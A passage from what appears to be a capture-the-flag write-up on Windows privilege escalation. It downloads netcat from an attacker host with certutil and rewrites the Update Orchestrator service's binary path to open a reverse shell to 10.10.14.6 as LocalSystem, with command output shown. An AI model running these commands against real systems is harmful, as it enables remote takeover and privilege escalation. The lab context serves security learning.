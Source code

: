 ```bash
certutil -urlcache -split -f http://10.10.14.6:8000/nc.exe
```

```bash
PS C:\Users\Public\Downloads> sc.exe stop UsoSvc
PS C:\Users\Public\Downloads> sc.exe config UsoSvc binpath= "C:\Users\Public\Downloads\nc.exe 10.10.14.6 5555 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\Users\Public\Downloads> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\Public\Downloads\nc.exe 10.10.14.6 5555 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
PS C:\Users\Public\Downloads> sc.exe start UsoSvc
```

We changed the Binary Path and If we restart the service. It will run my nc command.

And I got the shell

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%206.png)

We Own the Root!